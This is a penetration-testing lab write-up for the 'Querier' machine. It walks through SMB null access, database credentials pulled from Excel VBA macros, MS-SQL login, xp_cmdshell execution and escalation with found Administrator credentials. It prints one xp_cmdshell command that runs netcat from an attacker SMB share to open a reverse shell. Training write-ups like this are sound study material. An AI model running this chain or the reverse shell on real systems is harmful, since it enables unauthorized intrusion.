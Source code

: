 # Querier

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (2) (4) (2).png" alt=""><figcaption></figcaption></figure>

Interesting that there was a MS-SQL instance publicly open.

### XLSM Credentials

SMB allowed for null credentials to be accessed here:

<figure><img src="../../../.gitbook/assets/image (24) (2) (2).png" alt=""><figcaption></figcaption></figure>

Within the Reports directory, I found a .xlsm file.

<figure><img src="../../../.gitbook/assets/image (26) (7) (1).png" alt=""><figcaption></figcaption></figure>

We can download this Excel file back to our machine for analysis. Here, I used `oletools` to find out more about the file:

<figure><img src="../../../.gitbook/assets/image (1) (4) (1).png" alt=""><figcaption></figcaption></figure>

We can see how there are VBA Macros within this file. Again, we can use `olevba` to extract the code.

<figure><img src="../../../.gitbook/assets/image (15) (1) (6).png" alt=""><figcaption></figcaption></figure>

We found find this set of credentials for the database here.

<figure><img src="../../../.gitbook/assets/image (11) (1) (4).png" alt=""><figcaption></figcaption></figure>

We can then use `mssqlclient.py` to authenticate as this `reporting` user for the database that is publicly facing forward.

<figure><img src="../../../.gitbook/assets/image (4) (5).png" alt=""><figcaption></figcaption></figure>

### xp\_cmdshell

With access to the MS-SQL Database, I found that we are able to use `xp_cmdshell` to execute commands on the server.

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (5).png" alt=""><figcaption></figcaption></figure>

With this, we can easily gain a reverse shell through whatever means. I executed `nc.exe` over SMB.

```
xp_cmdshell "\\<IP>\share\nc64.exe -e cmd <IP> 4444"
```

<figure><img src="../../../.gitbook/assets/image (27) (7).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Now that we're in the machine, I ran winPEAS to enumerate possible escalation vectors. Funnily, it found the Administrator credentials in plaintext within the machine.

<figure><img src="../../../.gitbook/assets/image (7) (4) (3).png" alt=""><figcaption></figcaption></figure>

Earlier, Nmap detected that port 5985 for WinRM was open. As such, we can use `evil-winrm` to gain a shell as the administrator.

<figure><img src="../../../.gitbook/assets/image (44) (4).png" alt=""><figcaption></figcaption></figure>
